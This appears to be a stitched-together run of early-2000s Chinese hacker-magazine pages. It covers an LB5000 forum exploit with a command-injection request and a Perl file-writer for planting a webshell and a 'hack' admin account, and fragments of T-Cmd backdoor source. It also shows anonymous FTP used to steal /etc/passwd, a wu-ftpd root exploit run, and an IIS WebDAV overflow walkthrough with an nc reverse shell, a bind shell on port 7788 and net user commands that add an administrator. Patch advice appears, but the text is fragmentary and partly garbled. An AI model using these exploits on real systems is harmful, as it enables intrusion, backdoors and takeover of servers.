漏洞内容：ISA 服务器的 DNS 入侵检测过滤器中存在缺陷，在扫描引入的 DNS 请求时，过滤器没有正确地处理特殊类型的请求，导致产生缺陷。攻击者通过向公网 DNS 服务器的 ISA 服务器主机发送一个精心构造的畸形请求，能触发该缺陷，并导致能对 DNS 服务器发动 DoS 攻击。发送往 ISA 服务器的 DNS 请求将被防火墙阻断，不能到达内部 DNS 服务器。ISA 服务器的其他功能将不受影响。

- 缺省情况下，没有 DNS 服务器是公开的。DNS 服务器必须通过手动公开。
- 使用该缺陷，攻击者不能在受影响的 ISA 服务器或 DNS 服务器上获得任何权限，且不能危及服务器上文件的安全。

解决方案：  
http://download.microsoft.com/download/1/a/d/1ad2ab6d-fa07-41a0-8083-4f617b3b4658/isafh256.exe

对于 LB 论坛及其漏洞描述，我们已经看到过很多，但是下面这个漏洞，却不得不让我们为之心动、提神。PsKey 通过分析 LB 源代码，发现了 LB 的一些漏洞，我们将分几期分别公布，并给出相应 Exploit 和解决办法。

### LB5K 论坛 remmail.cgi 存在认证过滤不严漏洞

文/PsKey

#### 一、该漏洞涉及版本

LB5000XP 所有版本，低于 LB5000MX1.90（1.90 已修复）的所有版本

#### 二、漏洞描述

LB 是一款由 www.leoboard.com 开发和维护的源代码开放的 CGI 论坛；由于 remmail.cgi 存在认证和过滤不严漏洞，可能导致非法用户控制论坛或以 Web 权限在系统上执行任意命令。

下面是我们对这个漏洞的具体分析：

用过 LB 论坛的朋友应该知道，LB 论坛管理中心有个“Email 群发”的特殊功能，对应的文件是 mailmembers.cgi，可以同时向论坛的所有注册用户或版主发送邮件；其中发送的邮件中会包含一个链接，这个链接的对应文件是 remmail.cgi；如果用户不想再收到论坛管理员的邮件，只需点击这个链接（即“退出邮件列表”），remmail.cgi 便会把用户的名字写入 /data/remmem.cgi，因为管理员的群发邮件是不会发给 /data/remmem.cgi 所罗列的用户。

- LB 程序 mailmembers.cgi 中已注明：为了不打扰用户，在非必要情况下，尽量不要使用此功能。管理员真正给用户群发邮件的不多；
- 很多用户在论坛注册的时候不使用真实 Email，当然收不到群发邮件，这样便不会把自己名字加到 /data/remmem.cgi 中去，就算收到了管理员邮件的一般没什么事也不会想着——“退出邮件列表”吧？！

> 编者语：确实如此，本人所管理的几个论坛中该文件几乎都为空，危险啊！相信大多数朋友论坛的该文件也为空吧？！不信？自己去看着！

但我们并不排除 /data/remmem.cgi 为空的可能，下面来看看 remmail.cgi 文件到底有什么问题：

首先看看可以把自己名字写入 /data/remmem.cgi 的条件：

```perl
50 $inmembername = $query->cookie($membernamecookie)
...
53 if (lc($inmembername) eq lc($member)) {
...
75 $filetoopen = "$lbdir".'/data/remmem.cgi';
76 open (FILE, ">>$filetoopen)
77 print FILE "$member\n";
78 close (FILE)
```

$member 是我们自己提交的变量，可以看出，仅仅满足 $inmembername 和 $member 相等即可把 $member 写入 /data/remmem.cgi，再看看程序对这两个变量做了什么限制：

```perl
46 $theparam = &unHTML($theparam);
51 &error("普通错误：老大，别乱塞我的程序呀!...")
if (($inmembername =~ m/^\//) || ($inmembername =~ m/^\\/) || ($inmembername =~ m/^\.\./))
```

看来 $inmembername 过滤掉了“/”“\\”“..”，而 $member 则用 unHTML() 这个函数处理了一下，这个函数是这样的：

```perl
sub unHTML {
my $text = shift;
$text =~ s/<(.|\n)*?>//g;
$text =~ s/&/\&amp;/g;
$text =~ s/<script>/\&lt;script\&gt;/ig;
$text =~ s/"/\&quot;/g;
$text =~ s/ /\&nbsp;/g;
$text =~ s/</\&lt;/g;
$text =~ s/>/\&gt;/g;
$text =~ s/([\a\f\e\0\r\t])//isg;
$text =~ s/document.cookie/documents\&\#46\ncookie/isg;
return $text;
}
```

看来，几个比较有用的字符“><...”处理了，但是没关系，这些已经足够我们利用了。

#### 三、如何利用这个漏洞

当然，我们是在假设 /data/remmem.cgi 为空的情况下讨论利用方法的，但要是运气好非空也是可以成功的 :)

- 如果对方系统采用是“perl.exe "%s" %s”映射方式，很容易搞定，发送如下请求就可以了：

```http
GET /perl/lb5000mx/cgi-bin/remmail.cgi?member=system%20/%40ARGV HTTP/1.1
Host: www.target.com
Cookie: amembernamecookie=system%20/%40ARGV

http://www.target.com/perl/lb5000mx/cgi-bin/data/remmem.cgi?dir c:

c:\ 的目录

2003-02-22 09:46 <DIR> WINDOWS
2003-02-22 09:46 <DIR> Program Files
2003-02-22 10:04 <DIR> My Documents
```

- 如果对方采用 perlis.dll 映射方式：因为 remmail.cgi 过滤了“<>/\\..”，这样我们设置 $member 便受到了限制，因此可以考虑往 /data/remmem.cgi 写入几行代码，然后利用 /data/remmem.cgi 无限制地另写入文件，我们可以向 /data/remmem.cgi 写入的代码是：

```perl
use CGI qw(:standard);
$a=param('a');
$b=param('b');
open(SKY,$a);
print SKY $b;
```

这样便可以利用 /data/remmem.cgi 随心所欲地写入任何文件了。

下面我写了个小程序可以添加一个用户名和密码都是“hack”的论坛管理员，还可以生成一个文件 shell.cgi。先把一个 webshell（asp、php 或 cgi）改名为 txt 文件上传，然后利用 shell.cgi 把 webshell 文件后缀改回去，例如：

http://www.target.com/LBPATH/cgi-bin/shell.cgi?s=原文件.txt&d=目标文件.asp

测试代码如下（请注意代码开头和中间有变量需要修改）：

> 编者语：下面这个程序的作用不可小瞧哦，我的论坛就是被 PeSky 在我允许的情况下通过这个程序创建了名为 hack 的管理员（论坛坛主）。小弟我不得不佩服啊！

#### 四、解决办法

在文件 remmail.cgi 中先寻找语句：

```perl
50 $inmembername = $query->cookie("amembernamecookie");
```

该语句一般在第 50 行，找到该语句后，在该行之后加入如下语句：

```perl
$inpassword = $query->cookie("apasswordcookie");
$inmembername =~ s/[\a\f\n\e\0\r\t\`\@\#\$\%\^\&\*\(\)\+\=\\\/\,\.\'\"\;\:\<\>\?]//sg;
if ($inmembername eq "") {
  $output .= qq'
  <tr bgcolor="#FFFFFF">
  <td align="center">
  先请登陆，拜托！
  </td>
  </tr>
  ';
  &displayoutput;
}
&getmember($inmembername);
if ($userregistered eq "no") {
  $output .= qq'
  <tr bgcolor="#FFFFFF">
  <td align="center">
  开什么玩笑，这个用户根本不存在！
  </td>
  </tr>
  ';
  &displayoutput;
}
if ($inpassword ne $password) {
  $output .= qq'
  <tr bgcolor="#FFFFFF">
  <td align="center">
  密码不正确，难道你想破坏？
  </td>
  </tr>
  ';
  &displayoutput;
}
```

如果您觉得麻烦，也可以一不做，二不休，干脆删掉这个文件算了！当然您也可以将论坛升级到 LB5000MX1.90，也可以用最新版本 LB5000MX1.90 的 remmail.cgi 文件替换论坛中的该文件。不过您不久便会发现修改这个文件，补了这个漏洞，还会有其他漏洞，所以推荐将论坛升级吧。

> 后记：这个漏洞可以直接添加管理员账号，尽管在 LB 最高版本中，这个漏洞已经补上了。但是真正将自己的 LB 论坛升级到这个版本的还是少数！我们在这里公布此漏洞仅是作为技术交流，同时希望这个漏洞公布之后，还没有升级的 LB 论坛迅速升级，或者按照上面的措施打好补丁。希望大家不要用此漏洞来进行攻击，否则一切后果自己承担！

（上接第45页）

```c
hMutex=CreateMutex(NULL, FALSE, NULL);
// 创建互斥量。
hThread=CreateThread(NULL, 0, CmdShell,
(LPVOID)&sClient, 0, NULL);
// 创建处理客户端访问的重定向输入输出线程。
CreatePipe(&hReadPipe, &hReadShell, &saPipe, 0);
CreatePipe(&hWriteShell, &hWritePipe, &saPipe, 0);
// 创建用于进程间通信的输入/输出管道。
CreateProcess(lpImagePath, NULL, NULL,
NULL, TRUE, 0, NULL, NULL,
&lpStartupInfo, &lpProcessInfo);
// 创建经重定向输入输出的 Cmd 进程。
hThread[1]=CreateThread(NULL, 0, ReadShell,
(LPVOID *)&sdRead, 0, &dwSendThreadId);
hThread[2]=CreateThread(NULL, 0, WriteShell,
(LPVOID *)&sdWrite, 0, &dwRecvThreadId);
// 创建处理 Cmd 输入输出的线程。
dwResult=WaitForMultipleObjects(3, hThread,
FALSE, INFINITE);
// 等待线程或进程的结束。
```

```c
ReleaseMutex(hMutex); // 释放互斥量。
PeekNamedPipe(sdRead.hPipe, szBuffer,
BUFFER_SIZE, &dwBufferRead, NULL, NULL);
// 从管道中复制数据到缓冲区中，但不从管道中移出。
ReadFile(sdRead.hPipe, szBuffer, BUFFER_SIZE,
&dwBufferRead, NULL);
// 从管道中复制数据到缓冲区中。
WriteFile(sdWrite.hPipe, szBuffer2Write,
dwBuffer2Write, &dwBufferWritten, NULL);
// 向管道中写入从客户端接收到的数据。
dwErrorCode=WNetAddConnection2(&NetResource,
lpPassword, lpUserName,
CONNECT_INTERACTIVE);
// 与远程主机建立连接。
WNetCancelConnection2(lpIPC,
CONNECT_UPDATE_PROFILE, TRUE);
// 与远程主机结束连接。
```

#### 六、附录

### T-Cmd v1.0 源代码

“FTP”这个词是文件传送协议的缩写（File Transfer Protocol），FTP 是在 Internet 上传送文件的规定的基础。我们提到 FTP 时不只是认为它是一套规定，FTP 是一种服务，它可以在 Internet 上使得文件可以从一台 Internet 主机传送到另一台 Internet 主机上，通过这种方式，主要靠 FTP 把 Internet 中的主机相互联系在一起。FTP 采用 C/S 结构，对 FTP 发动攻击无非是对服务器端进行溢出或对用户名进行猜解，本文将从实例的角度分析如何进行 FTP 攻击。

### 分析从 FTP 发动的攻击

文/朱平

像大多数的 Internet 服务一样，FTP 使用客户机/服务器系统，你在使用一个名叫 FTP 的客户机程序时，就和远程主机上的服务程序相连了。理论上讲，这种想法是很简单的。当你用客户机程序时，你的命令就发送出去了，服务器响应你发送的命令。例如，你录入一个命令，让服务器传送一个指定的文件，服务器就会响应你的命令，并传送这个文件，你的客户机程序接收这个文件，并把它存入你的目录中。

匿名 FTP 在网上很常用，一些站点在不确定匿名用户权限或者目录安全的情况下，开通匿名 FTP，这样势必给系统安全带来隐患。下面是一个实例：

下来进入本文重点——从 FTP 发动的攻击。FTP 的攻击无非就是对用户的猜解和 FTP 服务器的溢出，及利用 FTP 传送 Webshell 到主机上执行命令（不完全版）！那我们就来复习一下旧的东西，因为这些几乎也是大家都很熟悉的知识！

#### 一、匿名 FTP 和用户的猜解

FTP 允许你把文件从一台 Internet 计算机传递到另一台计算机上。但是，这里有一个基本的约束：如果你没有被正式授权的话，就不能进入计算机。也就是说，你只有在有了一个用户标识和口令之后，才能在计算机上拷贝文件。

而现在很多服务器为了方便用户的下载需要，开通不需要口令的 FTP 服务，因此也就产生了匿名 FTP。作为用户，你本来不注册就不能和远程主机联系并“下载”文件，但是，这个管理系统提供了一个指定的用户标识 Anonymous（匿名），为你提供 FTP 服务（其实只是简化了确认用户身份的程序而已，并不是不确认用户身份）。在 Internet 上，你不能在没有提供这种匿名 FTP 服务的 Internet 主机上使用匿名 FTP。

```text
D:\>FTP
FTP>open 192.168.25.1
Connected to 192.168.25.1
220 chf-1 Microsoft FTP Service (Version 5.0)
User (192.168.25.1:(none)): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
password: （看不到的）
530 User 111@ cannot log in.
Login failed
```

上面的是一个 FTP 的登录过程，其实真正的登录过程是 FTP 发给 FTP 服务器 USER anonymous，然后就会返回个辨认值，比如说上面的 331，之后就会等待你输入密码，如果成功即登录到服务器，不然就要重试。

现在，网上还很流行的就是很多 FTP 都可以用 anonymous 或 guest 来登录，本来没有什么的，不过还是可以利用的啦，比如你可以用 cwd 命令来判断用户，有些 FTP 服务器由于没有了对特殊字符的处理，比如 ..../..../ 等，就可以下载 passwd。

```text
D:\>FTP
FTP> open 192.168.25.3
Connect to 192.168.25.3
220 ch FTP server (version wu-2.6.2.5) ready.
User (192.168.25.3:(none)): anonymous
331 Guest login ok, send your complete e-mail address as password.
Password: （我写了 anonymous，就上了）
230-The response 'anonymous' is not valid
230-Next time please use your e-mail address as your password
230- for example: joe@192.168.25.1
230 Guest login ok, access restriction apply.
FTP>cd /etc
250 CWD command successful.
FTP>ls
200 PORT command successful.
550 Bad directory components.
FTP>get passwd
200 PORT command successful.
150 Opening ASCII mode data connection for passwd (79 bytes).
226 Transfer complete.
FTP: 84 bytes received in 0.00 Second 84000.00 Kbytes/sec.
FTP>
```

```text
bin/csh
nobody:*:65534:65534: Unprivileged user:/:/nonexistent
joe:*:1001:1001: User &:/home/joe:/bin/csh
norm:*:1000:1000:Norman Rossman:/home/norm:/bin/csh
khan:*:1008:1008: RobRose Net, khans.com, Robert Jenkins:/home/khan:/bin/csh
robrose:*:1106:1056: Robert Jenkins, robrose.com:/home/robrose:/bin/csh
secret:*:1002:1002: SecretofLife.com:/home/secret:/bin/csh
```

在自己的电脑上的目录下就会找到 passwd 文件，用文本打开就可以了，类似如下内容：

```text
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/nonexistent
operator:*:2:20:System &:/usr/guest/operator:/bin/csh
bin:*:3:7:Binaries Commands and Sources:/:/nonexistent
games:*:7:13:Games pseudo-user:/usr/games:/nonexistent
news:*:8:8:News Subsystem:/:/nonexistent
man:*:9:9:Mister Man Pages:/usr/share/man:/nonexistent
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/libexec/uucp/uucico
xten:*:67:67:X-10 daemon:/usr/local/xten:/nonexistent
pop:*:68:6:Post Office Owner:/nonexistent:/nonexistent
FTP:*:999:999:anonymous FTP account:/home/FTP:/
```

是 shadow 过的，不过不要紧，最少我们也知道对方的用户名了！还有一种得到用户名的方法，就是用 cwd 命令，不过这个方法没有多大的可行性！

现在我们有了主机上的用户名，我想你已经成功一半了，下一步你就可以利用枚举用户密码来得到用户密码，也就是所谓的用户密码的猜解。对用户密码的猜解，我看几乎每个扫描器都有这个功能，xscan 3.0 就不错了。还有的就是，你对如何扫到密码和用户的过程了解吗？其实不难的！当你在命令行中用 FTP 命令连接某个 FTP 服务器的时候，其实也可以用那个来猜密码的，不过是手动的，那样的做法太慢了，所以就要自己写点东西来加快进程！

#### 二、FTP 服务器的溢出

接下来的就是对 FTP Server 的溢出，网上最常见的就是 wu-FTP Server 的溢出攻击了！

和大多数溢出一样，FTP 溢出属于缓冲区溢出。缓冲区溢出的实质是希望通过控制程序的执行顺序，来获得 root 或其他权限，从而控制系统。原理：缓冲区是程序运行时计算机内存中的一个连续的块，它保存了给定类型的数据。但问题随着动态地分配变量而出现，为了不占用太多内存，一个有动态分配变量的程序在运行时，才决定给它们多少内存。如果程序在分配的内存里放入太多的数据，就会使程序溢出了。

套话不多说了，我想大家还更喜欢看实例：

```text
Red Hat Linux release 7.3 (Valhalla)
Kernel 2.4.18-3 on an i686
```

```text
login: chi
Password:
Last login: Mon Feb 24 13:25:17 from 192.168.25...

[chi@chi chi]$ ./7350wurm -a -d 62.163.38.207
/* 溢出 */

##########################wu################
uid=0(root) gid=0(root) egid=50(FTP) groups=50(FTP)
// 溢出 root，兴奋吧
Linux 2.2.16-3 #1 Mon Jun 19 18:10:14 EDT 2000 i686 unknown
ls -al
total 24
drwxr-xr-x 6 root root 4096 Apr 13 16:14 .
drwxr-xr-x 37 root root 4096 Feb 8 18:23 ..
d--x--x--x 2 root root 4096 Jul 12 2000 bin
d--x--x--x 2 root root 4096 Jul 12 2000 etc
drwxr-xr-x 2 root root 4096 Jul 12 2000 lib
drwxr-sr-x 2 root FTP 4096 Feb 5 2000 pub
```

至于如何得到对方主机的 banner，用 superscan 来扫描也不错，扫个大点的区，还有就是只对 21 端口进行扫描并显示主机回应，扫完后你可以一个一个地看，看到是 wu-FTP 的就可以拿上去试一下，不过个人觉得很累，就写了个把 superscan 扫描结果简单化的小东东啦！自己用 tc 编下就可以了！程序如下：

```c
#include <stdio.h>
main(int argc,char *argv[])
{
    FILE *in;
    FILE *out;
    char buf[1024];
    int i;
    if(argc<3)
    {
        printf("usage : %s <inputfile> <outputfile>",argv[0]);
        exit();
    }
    in = fopen(argv[1],"r");
    if(in == NULL)
        puts("File open error");
    out = fopen(argv[2],"w");
    if(out == NULL)
        puts("File write error");

    while(fgets(buf,65,in) != NULL)

    for(i=0;i<=50;i++)

    if(buf[i]=='w')
    if(buf[i+1]=='u')
        fputs(buf,out);
}
```

#### 三、利用 FTP 上传个 shell，再到 Web 端口执行命令

当你拿到了一个普通用户名和密码，对方却没开 23 端口（Telnet 服务）的时候，或者你拿到 root 权限，想留个安全的后门的时候，Webshell 一定是最好的选择。

其实写一个 Webshell 很简单，无非就是调用 PHP、Perl、ASP 中查看文件、执行命令等函数。这方面的文章，红色警戒的 analyst 写过很多。下面是一份比较详细的容易出错的函数列表：

- **\<PHP 代码执行\>**
  - `require()`：读取指定文件的内容并且作为 PHP 代码解释
  - `include()`：同上
  - `eval()`：把给定的字符串作为 PHP 代码执行
  - `preg_replace()`：当与 `/e` 开关一起使用时，替换字符串将被解释为 PHP 代码

- **\<命令执行\>**
  - `exec()`：执行指定的命令，返回执行结果的最后一行
  - `passthru()`：执行指定命令，返回屏幕结果到客户端浏览器
  - `` ` ` ``：执行指定命令，返回所有结果到一个数组
  - `system()`：同 `passthru()`，但是不处理二进制数据
  - `popen()`：执行指定的命令，把输入或输出连接到 PHP 文件描述符

- **\<文件泄露\>**
  - `fopen()`：打开文件，并对应一个 PHP 文件描述符
  - `readfile()`：读取文件的内容，然后输出到客户端浏览器
  - `file()`：把整个文件内容读到一个数组中

- **实例：**

```php
<?
phpinfo()
?>
```

把上面的代码另存为 config.php，执行后效果如图 1 所示。

图 1

大家看到什么了吗？对，很多系统信息。同理，大家看看利用命令执行函数及文件泄露函数得到的效果，如图 2、图 3 所示。

图 2

是不是很实用？同理，这些效果也能在 ASP 和 CGI 中看到，我就不多说啦。大家可以到 www.9836.com 下载网上收集来的 Webshell（http://9836.com/webshell.rar）。还有，大家要注意的是，Webshell 执行的是 nobody 的权限，在远程主机的主目录一般是没有写权限的，所以要生成程序时最好利用 quote site chmod 777 cgi-bin 更改主目录属性。

防范：还是老话，多打 Pack，多检测主机安全。在国内，一些管理员总认为主页能显示就说明服务器没被入侵，被黑客入侵就是主页被改，或者数据删除导致主页不能正常显示。以至于他们常常一两个月才检测一遍，或者更长。其实，他们的服务器早就被人玩得惨不忍睹了。对于匿名 FTP，我想最主要的就是限定匿名用户的权限，很有必要把它绑定在只提供下载的文件夹下。还有就是文件夹属性的安全，不能为了图一时方便，更改文件夹属性，即使改了也要及时地更正回来。一些重要的系统文件强烈建议设为 root 只读，如：passwd、inetd.conf 等。对于 FTP 服务溢出的防范，我想只有多去些安全网站，如国内的绿盟科技、安全焦点、中华补天；国外的有 Security Focus、Packetstorm，多看些安全文档，了解最新的漏洞信息，多打 Pack。对于 Webshell 的防范，主要是限定些服务器函数就能做的，最主要还是用户和密码的安全。一个小小的漏洞或者一时疏忽足以毁了一个大系统。

图 3

## IIS 5.0 WebDAV

## 远程溢出漏洞全接触

#### ——IIS 5.0 又一严重新漏洞曝光

2003 年 3 月 18 日，微软发布 MS03-007 号安全公告：Microsoft IIS 5.0 WebDAV 远程溢出漏洞，声称利用此漏洞溢出后可以得到 LocalSystem 权限，于是网上沸沸扬扬开始关注起此漏洞。到了 3 月下旬，发现此漏洞的老外发布了他的 exploit，不过由于这个 exploit 是针对英文版的 Win2000 的，所以对国内造成的影响不大。直至 3 月 27 日，国内某黑客在安全焦点上公布了其修改后的针对中文版 Win2000 的此漏洞的 exploit 程序，于是第二天即 3 月 28 日，国内的各个黑客网站都纷纷提供了编译好的 Win 平台下的 WebDAV 漏洞溢出攻击程序的下载，各个安全论坛便随处可见关于 WebDAV 远程溢出攻击的讨论，甚至更有甚者把溢出攻击过程做成了动画教程供人观摩，WebDAV 漏洞溢出攻击在一夜之间“迅速走红”。而且，其攻击代码在 3 月 29 日时又被人改进，使其成功率又大幅提高，眼下 WebDAV 远程溢出攻击已经成为各种黑客最流行的攻击方法，其来势之迅速、之猛烈是以前 Unicode、printer 等漏洞所不及，而且有被蠕虫制造者利用的可能，所以笔者认为有必要写此文章让广大网管和用户尽早了解这个漏洞情况及解决方案，以提高警惕，做好防范。

微软安全公告：MS03-007

Unchecked Buffer In Windows Component Could Cause Web Server Compromise (815021)

地址：http://www.microsoft.com/technet/security/bulletin/MS03-007.asp

描述：IIS 5.0 包含的 WebDAV 组件不充分检查传递给部分系统组件的数据，远程攻击者利用这个漏洞对 WebDAV 进行缓冲区溢出攻击，可能以 Web 进程权限在系统上执行任意指令。

#### 一、漏洞基本情况

##### 1．漏洞名称及描述

名称：Microsoft Windows 2000 WebDAV 远程缓冲区溢出漏洞

##### 2．受影响系统

- Microsoft IIS 5.0
- Microsoft Windows 2000 Professional/Server/Datacenter Server SP3
- Microsoft Windows 2000 Professional/Server/Datacenter Server SP2
- Microsoft Windows 2000 Professional/Server/Datacenter Server SP1
- Microsoft Windows 2000 Professional/Server/Datacenter Server

##### 3．什么是 WebDAV 组件

Microsoft IIS 5.0（Internet Information Server 5）是 Microsoft Windows 2000 自带的一个网络信息服务器，其中包含 HTTP 服务功能。IIS 5 默认提供了对 WebDAV 的支持，WebDAV（基于 Web 的分布式写作和改写）是一组对 HTTP 协议的扩展，它允许用户协作地编辑和管理远程 Web 服务器上的文件。使用 WebDAV，可以通过 HTTP 向用户提供远程文件存储的服务，包括创建、移动、复制及删除远程服务器上的文件，但是作为普通的 HTTP 服务器，这个功能不是必需的。

##### 4．漏洞产生的原因

这个漏洞产生的原因具体是由于 WebDAV 使用了 ntdll.dll 中的一些 API 函数，而这些函数存在一个缓冲区溢出漏洞，而 Microsoft IIS 5.0 带有 WebDAV 组件，对用户输入的传递给 ntdll.dll 程序处理的请求未作充分的边界检查，远程入侵者可以通过向 WebDAV 提交一个精心构造的超长的数据请求而导致发生缓冲区溢出，成功利用这个漏洞可以获得 LocalSystem 权限，这意味着入侵者可以获得主机的完全控制能力。所以确切地说，这个漏洞并不是 IIS 造成的，而是 ntdll.dll 里面的一个 API 函数造成的。也就是说，很多调用这个 API 的应用程序都存在这个漏洞。

##### 5．测试代码：见附件

WebDAV 远程缓冲区溢出漏洞的基本情况我们这里介绍到这里了，如果读者有兴趣想进一步了解这个漏洞具体的溢出原理分析，建议可以去安全焦点 http://www.xfocus.net/ 中参阅 isno 写的两篇关于 WebDAV 远程溢出漏洞分析的文章，很精彩！我这里就不班门弄斧了。

#### 二、如何检测漏洞

在上面介绍漏洞基本情况的时候，我们已经说了 IIS 5.0 的默认配置是提供了对 WebDAV 的支持，也就是说，如果你的 Win 2000 提供了 IIS 服务而没有打过针对此漏洞的补丁，那么一般情况下你的 IIS 就会存在这个漏洞，但如何来确定呢？我们可以借助一些工具来帮我们来进行检测。

- 1．第一个检测工具：PTwebdav.exe

  下载地址：http://www.ttian.net/txt/show.php?id=10

  简介：PTwebdav.exe 是一个老外写的专门用来远程检测 Windows 2000 IIS 5.0 服务器是否存在 WebDAV 远程缓冲区溢出漏洞的工具，其操作界面非常简单，只要在其“IP or hostname”中填入要检测的主机和 IIS 服务端口，然后按“check”就可以了，如图 1 所示。笔者正用它来检测本地主机是否存在 WebDAV 漏洞，一会儿它就会在下面窗口里显示结果。这个工具不错，但它每次只能检测一台机子，如果你想检测一个网段内所有主机就比较麻烦了，一台台地检测不知道要检测到什么时候。让我们来看看第二个检测软件，它能帮我们解决这个问题。

- 2．第二个检测工具：WebDAVScan v1.0

  下载地址：http://www.cnhonker.net/Down/show.php?id=65&down=1

  简介：WebDAVScan 是一个专门用于检测网段内的 Microsoft IIS 5.0 服务器是否提供了对 WebDAV 的支持的扫描器，软件非常小，只有 7.23KB，而且是个绿色软件，无须安装，直接运行即可！扫描后如有此安全漏洞，软件会自动生成扫描报告，原来也是老外写的，不过我们这里用。

图 1

简介：PTwebdav.exe 是一个老外写的专门用来远程检测 Windows 2000 IIS 5.0 服务器是否存在 WebDAV 远程缓冲区溢出漏洞的工具，其操作界面非常简单，只要在其“IP or hostname”

图 2

的是 WebDAVScan 的汉化版。如图 2 所示，笔者扫描 x.x.23.1-x.x.23.254 的网段大概用了 30 秒时间，速度很快，窗口右边显示的就是结果，“Enable”表示了此 IIS 支持 WebDAV，至于有没有漏洞要看它有没有打过补丁了。经笔者测试，这个软件确实很不错，推荐大家使用。好了，WebDAV 的检测也介绍完了，下面我们开始讲利用此漏洞测试攻击了。


#### 三、漏洞测试攻击

自从 WebDAV 的 exploit 代码出现后，网上紧接着就出现了好几种版本的溢出攻击程序，虽然其核心代码类似，但具体的功能和操作还是有些区别的，我们这里来了解两个 WebDAV 的溢出攻击程序。

##### 1．第一个溢出程序：wb.exe

下载地址：http://www.longker.com/txt/opensoft.asp?soft_id=131&url=1

简介：wb.exe 是一个 Win32 平台下已经编译好的针对英文版的 IIS WebDAV 远程溢出攻击程序，原代码的作者是 CnP 的 kralor。使用时先用 Netcat 在本地监听某个端口，如 nc -l -p 666，然后使用此程序对远程主机进行溢出攻击，溢出成功后就能在本地监听口上获取远程主机的反向连接，获取 LocalSystem 权限的 cmdshell。它需要指定远程主机、反向连接主机 IP、端口、补丁信息等参数：

syntax: C:\K_WEBDAV.EXE <victim_host> <your_host> <your_port> [padding]

如 wb targetserver.com your_ip 666 3，如图 3 所示，攻击如果成功，那 Netcat 的监听窗口就会出现远程主机的 shell。

##### 2．第二个溢出程序：webdavx.exe

下载地址：http://www.longker.com/txt/opensoft.asp?soft_id=135&url=1

简介：webdavx.exe 是一个针对中文版 Server 的溢出程序，它是根据安全焦点 Isno 的 pcr1 代码编译成的。这个版本只对中文版的有效，它的使用也不同于 wb.exe，它溢出成功后直接在目标主机的 7788 端口上绑定一个 LocalSystem 权限的 cmdshell，不像 wb.exe 需要反向连接，入侵者只要 telnet 到 7788 端口就可以了，所以用它在局域网内也能对局域网的主机进行攻击。当然 wb.exe 使用反向连接也有它的好处，因为许多 Web 服务器的防火墙都设置为只允许通过到端口 80 的 TCP 连接，这样即使开了 7788 端口你也连接不上，而使用反向连接可以突破防火墙的 TCP 过滤，所以这两个软件各有用处各有特点，可以根据不同的需要进行选择。

##### 3．测试攻击实例

虽然讲了两个攻击软件的用法，但都只是纸上谈兵，我们还是来实际测试一下这个漏洞的威力如何！我们测试的是中文版的 IIS 主机，使用的扫描软件是 WebDAVScan 的汉化版，攻击软件是 webdavx.exe。为了输入方便，我把 webdavx.exe 改名为 web.exe。在刚才介绍 WebDAVScan 的时候我们已经扫描到的 IIS 支持 WebDAV 的主机中选一台，打开 CMD，输入：

```text
c:\web 2x.x.23.68
send buffer...（正在溢出）

telnet target 7788（溢出完成，请尝试 telnet 连接目标主机的 7788 端口；如图 4 所示）

c:\telnet 2x.x.23.68 7788
正在连接到 2x.x.23.68...
Microsoft Windows 2000 [Version 5.00.2195]
<C> 版权所有 1985-2000 Microsoft Corp.
C:\winnt\system32>（溢出成功，已经连接到其 7788 端口，如图 5 所示）
```


当然实际上溢出不一定成功，如果 telnet 连接提示失败就说明溢出可能不成功，这里是笔者 N 次试验的结果。不过现在 webdavx.exe 的溢出代码重新进行了改进，其溢出成功率大幅提高，估计在 1/2 左右。而且得到的应该是 system 权限，比超级用户还高一级，可以加个 administrator 组的成员来试试：

```text
C:\winnt\system32>net user hacker 111111 /add
The command completed successfully
C:\winnt\system32>net localgroup administrators hacker /add
The command completed successfully
```

命令成功了，看来 System 权限是真的了，那不是可在机器上干任何事情了？还真有点可怕！好了，我们这里只是测试，到此就停止吧。

#### 四、漏洞消除方案

我们上面已经看到了 WebDAV 远程溢出攻击的威力了吧，而到本文截稿为止，国内网络上的 WebDAV 远程溢出攻击是越来越多了，你的 IIS 服务器一不小心就有可能被黑客攻击而成为被控制的傀儡，所以管理员和用户们千万不能大意，一定要尽快地堵上这个漏洞，千万不能再重演像 MS SQL 的远程溢出漏洞那样的惨痛教训了。具体的可以通过以下几个方案来解决：

- 1. 安装补丁。目前微软已经提供了此漏洞的补丁，下载地址：http://microsoft.com/downloads/

```text
details.aspx?FamilyId=C9A38D45-5145-4844-B62E-C69D32AC929B&displaylang=en
```

或者，你也可以使用微软提供的 IIS Lockdown 工具来防止该漏洞被利用。

- 2. 如果你不能立刻安装补丁或者升级，也可以手工修补这个漏洞。我们上面已经说了 WebDAV 功能对一般的 Web 服务器来说并不需要，所以可以把它停止掉。WebDAV 在 IIS 5.0 Web 服务器上的实现是由 Httpext.dll 完成，默认安装，但是简单更改 Httpext.dll 不能修正此漏洞，因为 Windows 2000 的 WFP 功能会防止系统重要文件破坏或删除。要完全关闭 WebDAV 包括的 PUT 和 DELETE 请求，需要对注册表进行如下更改：启动注册表编辑器，搜索注册表中的如下键：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters
```

找到后点击“编辑”菜单，点击“增加值”，然后增加如下注册表键值：

```text
Value name: DisableWebDAV
Data type: DWORD
Value data: 1
```

最后别忘了重新启动 IIS，只有重启 IIS 后新的设置才会生效。

### 最新报告


### 恶意邮件蠕虫“表决”病毒档案

病毒名称：Worm.vote.d

病毒类型：蠕虫病毒

传播方式：网络 / 邮件

病毒介绍：该病毒通过发送大量病毒邮件进行网络传播，病毒发作时会疯狂地用自身病毒代码替代掉硬盘上的所有 *.exe、*.scr 文件，同时删除所有 *.wav、*.mp3、*.jpg、*.bmp、*.zip、*.rar、*.doc 类型的文件，从而导致系统崩溃，数据丢失。

病毒的发现与清除：

此病毒有如下特征，如果用户发现计算机中有这些特征，则很有可能中了此病毒，可以按照下面所说的方法手工清除病毒。

- 1. 病毒运行后会发送大量的病毒邮件，邮件标题为：“WORLD TRADE CENTER PICTURES”（世贸中心的图片），邮件内容为：Remember The Times......MAYBE THEY WILL BE BACK.....!!!（记住这一刻……也许它们还会重现……!!!），附件名为：WTC32.scr。用户可以检查自己的邮箱，如果发现这种邮件，则应直接删除，不要直接运行该邮件的附件。

